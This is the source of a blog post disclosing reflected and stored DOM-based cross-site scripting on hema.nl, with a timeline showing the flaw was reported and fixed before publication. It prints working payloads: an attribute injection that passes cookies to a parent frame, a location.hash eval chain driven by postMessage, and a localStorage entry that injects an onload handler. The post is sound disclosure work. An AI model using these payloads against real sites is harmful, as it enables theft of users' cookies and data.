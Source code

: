 ```yaml
---
layout: post
title: Cross-site-scripting on one of the largest Dutch franchisors
subtitle: Reflected and "Stored" DOM-based cross-site-scripting on hema[dot]nl.
description: By abusing a sensitive data exposure vulnerability it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting. Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.
keywords: xss, cross-site, scripting, hema, dutch, franchisor, dom, dom-based, sensitive, data, exposure
author: Tijme Gommers
include_in_header: false
include_in_footer: false
show_in_post_list: false
robots: index, follow
---
```


By abusing a sensitive data exposure [vulnerability](https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure){:target="_blank"}{:rel="noopener noreferrer"} it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using [cross frame scripting](https://www.owasp.org/index.php/Cross_Frame_Scripting){:target="_blank"}{:rel="noopener noreferrer"}. Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.

> Please note that I used FireFox to test this vulnerability since browsers like Chrome, Safari and Edge have built in XSS auditors, which filter some of the reflected XSS.

{% 
    include lightbox.html 
    image="/img/xss-on-hema-one-of-the-largest-dutch-franchisors/xss-auditor-block.png"
    title="Google Chrome's XSS auditor"
    album="xss-auditor-block"
    width="364"
    height="52"
%}

### Proof of Concept (reflected XSS)
While examining hema.nl I found some interesting XHR calls. One of them was `ListerQuickView.aspx`, which contained a lot of GET parameters.

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=12345`

I tried to inject JavaScript in all the parameters but it didn't really work. Especially because they blocked all requests if the URL contained a `<` sign followed by another character. The value of one of the parameters, `productSku`, was used as an attribute value. This made it possible to execute JavaScript using the `onmousemove` event. Unfortunately the `onload` event couldn't be used since the element it got injected in was a div.

You can find the payload I used below. The inline CSS causes the div to overlap all content (this increases the chance that `onmousemove` is triggered). The `parent.postMessage` passes the cookie to the parent frame on mouse move.

`&productSku=tes" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="parent.postMessage(cookie, '*')">as`

Which resulted in the following HTML:

{% 
    include lightbox.html 
    image="/img/xss-on-hema-one-of-the-largest-dutch-franchisors/xss-payload-in-source.jpg"
    title="Payload in HTML"
    album="image-xss-payload"
    width="1937"
    height="174"
%}

We can now place this piece of art in an iframe, which results in cross frame scripting.

### Proof of Concept (Stored DOM-based XSS)

Making it "Stored DOM-based XSS" is a bit more difficult. I divided it into two steps, bypassing the input restrictions and inserting the JavaScript payload into the local storage.

#### Bypassing Hema's input restrictions

The DOM-based XSS vulnerability contains a little bit more code. Lets use the previous payload and edit it to look like this:

`data-message="message" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="eval(location.hash.substring(1))"`

This code executes the JavaScript from the `location.hash`. I used `location.hash` since hema.nl blocks a lot of characters, like `<` and `{`, and the `location.hash` will not be included in the request, so hema.nl will never know about it.

In my location hash I wrote `#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)})`.

I use `arguments[0].originalTarget.attributes[4].value` (where `arguments[0]` is the `onmousemove` event) to get the value of the fourth attribute of our div, which is the string `message`. I couldn't just add the string `"message"` to `addEventListener` since quotes in the hash are converted to `%22`, which results in an unexpected `%` character.

So all this code basically sets a listener for messages on mouse move. Using cross frame scripting we can now execute all the code we want in the hema.nl iframe using `postMessage`.

`document.getElementById('hema').contentWindow.postMessage('alert(document.cookie)', '*')`

Which results in:

{% 
    include lightbox.html 
    image="/img/xss-on-hema-one-of-the-largest-dutch-franchisors/xss-alert-cookie.png"
    title="Alert on mouse over"
    album="image-alert-cookie"
    width="1166"
    height="181"
%}

This is the full URL that I used:

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=tes%22%20data-message=%22message%22%20style=%22width:100%;height:100%;position:absolute;top:0;left:0;%22%20onmousemove=%22eval(location.hash.substring(1))%22%20data-test=%22as#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)});`

#### Making it "Stored DOM-based XSS"

Hema stores some interesting JSON in the local storage. For example, they store all the products that I added to my favorites.

A product that I added to my favorites looks like this:

{% highlight json %}
{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"3,-",
}
{% endhighlight %}

And ofcourse, using our postMessage, we can edit it so it looks like this (note the `onload` in the imgUrl):

{% highlight json %}
{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg\" onload=\"alert(document.cookie)",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"3,-",
}
{% endhighlight %}

Hema loads the favorites and shows the image without encoding the URL. Which means every time the victim navigates to hema.nl an alert will pop up.

So there you go, Stored DOM-based XSS!

{% 
    include lightbox.html 
    image="/img/xss-on-hema-one-of-the-largest-dutch-franchisors/xss-stored-proof.png"
    title="Stored DOM-based XSS in hema.nl"
    album="image-stored-dom-based-xss-alert-cookie"
    width="456"
    height="414"
%}

### Domains
<a href="http://www.hema.nl/" target="_blank" rel="noopener">www.hema.nl</a> (vulnerable)
<br>
<a href="http://www.hema.fr/" target="_blank" rel="noopener"><s>www.hema.fr</s></a> (protected by CloudFlare)
<br>
<a href="http://www.hema.be/" target="_blank" rel="noopener"><s>www.hema.be</s></a> (not vulnerable)
<br>
<a href="http://www.hemashop.com/" target="_blank" rel="noopener"><s>www.hemashop.com</s></a> (not vulnerable)

### Timeline
<div class="table-responsive">
    <table class="table">
        <thead>
            <tr>
                <th>Date</th>
                <th>Activity</th>
            </tr>
        </thead>
        <tbody>
            <tr>
                <td>11 Dec 2016 18:43:34 GMT</td>
                <td>Reported the vulnerability to Hema.</td>
            </tr>
            <tr>
                <td>12 Dec 2016 09:23:21 GMT</td>
                <td>Hema is investigating the vulnerability.</td>
            </tr>
            <tr>
                <td>15 Dec 2016 13:54:56 GMT</td>
                <td>Hema confirmed the vulnerability.<br>Hema will be releasing a fix in week 51.</td>
            </tr>
            <tr>
                <td>20 Dec 2016 19:11:44 GMT</td>
                <td>Hema fixed the vulnerability.</td>
            </tr>
            <tr>
                <td>20 Dec 2016 19:14:41 GMT</td>
                <td>Public disclosure.</td>
            </tr>
        </tbody>
    </table>
</div>
